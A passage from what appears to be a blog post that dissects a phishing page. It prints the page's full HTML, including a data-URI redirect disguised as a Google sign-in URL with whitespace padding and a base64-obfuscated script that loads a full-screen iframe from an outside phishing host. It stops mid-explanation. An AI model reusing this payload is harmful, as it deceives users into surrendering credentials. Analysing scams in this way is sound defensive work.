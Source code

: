 This html page is only around 2kb (that's 1/40th of the size of the current
minified jQuery release - scammers know what they're doing for sure!):

{% highlight html %}
<meta http-equiv="Refresh" content="0; url=data:text/html,https://accounts.google.com/ServiceLogin?service=mail&passive=true&rm=false&continue                                                                                                                                                                                                                                    <script src=data:text/html;base64,dmFyIF8weGRjMGY9WyJceDc0XHg2OVx4NzRceDZDXHg2NSIsIlx4NjRceDZGXHg2M1x4NzVceDZE
XHg2NVx4NkVceDc0IiwiXHg1OVx4NkZceDc1XHgyMFx4NjhceDYxXHg3Nlx4NjVceDIwXHg2Mlx4
NjVceDY1XHg2RVx4MjBceDUzXHg2OVx4NjdceDZFXHg2NVx4NjRceDIwXHg2Rlx4NzVceDc0Iiwi
XHg2Q1x4NjlceDZFXHg2QiIsIlx4NjNceDcyXHg2NVx4NjFceDc0XHg2NVx4NDVceDZDXHg2NVx4
NkRceDY1XHg2RVx4NzQiLCJceDc0XHg3OVx4NzBceDY1IiwiXHg2OVx4NkRceDYxXHg2N1x4NjVc
eDJGXHg3OFx4MkRceDY5XHg2M1x4NkZceDZFIiwiXHg3Mlx4NjVceDZDIiwiXHg3M1x4NjhceDZG
XHg3Mlx4NzRceDYzXHg3NVx4NzRceDIwXHg2OVx4NjNceDZGXHg2RSIsIlx4NjhceDcyXHg2NVx4
NjYiLCIiLCJceDYxXHg3MFx4NzBceDY1XHg2RVx4NjRceDQzXHg2OFx4NjlceDZDXHg2NCIsIlx4
NjhceDY1XHg2MVx4NjQiLCJceDY3XHg2NVx4NzRceDQ1XHg2Q1x4NjVceDZEXHg2NVx4NkVceDc0
XHg3M1x4NDJceDc5XHg1NFx4NjFceDY3XHg0RVx4NjFceDZEXHg2NSIsIlx4NkZceDc1XHg3NFx4
NjVceDcyXHg0OFx4NTRceDREXHg0QyIsIlx4NjJceDZGXHg2NFx4NzkiLCJceDNDXHg2OVx4NjZc
eDcyXHg2MVx4NkRceDY1XHgyMFx4NzNceDcyXHg2M1x4M0RceDIyXHg2OFx4NzRceDc0XHg3MFx4
M0FceDJGXHgyRlx4NjVceDc4XHg3MVx4NzVceDY5XHg3M1x4NjlceDc0XHg2NVx4NzJceDY1XHg3
N1x4NkZceDZGXHg2NFx4NzNceDJFXHg3NFx4NkZceDcwXHgyRlx4NjFceDYyXHg2Rlx4NzVceDc0
XHg3NVx4NzNceDJGXHg2Rlx4NzVceDcyXHg3NFx4NjVceDYxXHg2RFx4NkRceDY1XHg2NFx4Njlc
eDYxXHg3MFx4NjFceDcyXHg3NFx4NkVceDY1XHg3Mlx4NzNceDJFXHg2OFx4NzRceDZEXHg2Q1x4
MjJceDIwXHg3M1x4NzRceDc5XHg2Q1x4NjVceDNEXHgyMlx4NjJceDZGXHg3Mlx4NjRceDY1XHg3
Mlx4M0FceDIwXHgzMFx4M0JceDc3XHg2OVx4NjRceDc0XHg2OFx4M0FceDIwXHgzMVx4MzBceDMw
XHgyNVx4M0JceDY4XHg2NVx4NjlceDY3XHg2OFx4NzRceDNBXHgzMVx4MzBceDMwXHgyNVx4MjJc
eDNFXHgzQ1x4MkZceDY5XHg2Nlx4NzJceDYxXHg2RFx4NjVceDNFIl07d2luZG93W18weGRjMGZb
MV1dW18weGRjMGZbMF1dPV8weGRjMGZbMl07dHJ5eyhmdW5jdGlvbigpe3ZhciBfMHg4NjM3eDE9
d2luZG93W18weGRjMGZbMV1dW18weGRjMGZbNF1dKF8weGRjMGZbM10pO18weDg2Mzd4MVtfMHhk
YzBmWzVdXT1fMHhkYzBmWzZdO18weDg2Mzd4MVtfMHhkYzBmWzddXT1fMHhkYzBmWzhdO18weDg2
Mzd4MVtfMHhkYzBmWzldXT1fMHhkYzBmWzEwXTtkb2N1bWVudFtfMHhkYzBmWzEzXV0oXzB4ZGMw
ZlsxMl0pWzBdW18weGRjMGZbMTFdXShfMHg4NjM3eDEpfSgpKX1jYXRjaChlKXt9O3dpbmRvd1tf
MHhkYzBmWzFdXVtfMHhkYzBmWzE1XV1bXzB4ZGMwZlsxNF1dPV8weGRjMGZbMTZd></script>">
{% endhighlight %}

What it does is redirect you to an HTML data URI, which is why the resulting
page looks surprisingly trustworthy to an unsuspecting user:

